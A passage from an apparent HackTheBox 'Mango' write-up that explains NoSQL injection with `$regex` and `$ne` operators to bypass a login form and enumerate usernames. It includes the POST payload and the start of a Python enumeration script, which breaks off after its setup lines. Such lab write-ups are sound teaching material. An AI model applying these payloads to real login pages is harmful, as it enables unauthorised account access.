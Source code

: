 but it looks like the page is not completed yet and it has username/email admin@mango.htb . Anyway lets enumerate more usernames.
By using `[$regex]` we tell the server to use 'Regular Expressing' for our input and search for it in the database.
Enumerating the login page with `username[$regex]=^a&password[$ne]=&login=login` as POST data that gets send to the server with payload of  **` ^`** to specify the search for the first letter only, and a because it is the begining of 'admin' account.

and it looks like we have a successful login too.

![7](/assets/mango/7.png)

lets try '**d**' .

the response status code was not 302 (redirection). Meaning that there is no account name that starts with 'd' in our case. We can enumrate letter by letter or we can automate this with python.

Here a python script that will enumerate usernames.

Note: i routed the script traffic to Burp Suite through **localhost** port **8080** for debugging purposes. If you are not using burp please remove the lines from 6-14
```python
  1  # python3 nosql-enum.py
  2  import requests
  3  import re
  4  import os
  5  
  6  #=================================================
  7  # to send this script traffic through Burp Suite
  8  proxy = 'http://localhost:8080'
  9  
 10  os.environ['http_proxy'] = proxy
 11  os.environ['HTTP_PROXY'] = proxy
 12  os.environ['https_proxy'] = proxy
 13  os.environ['HTTPS_PROXY'] = proxy
 14  # =================================================
 15  
 16  url = 'http://staging-order.mango.htb'
 17  cookies = 'PHPSESSID='
 18  
```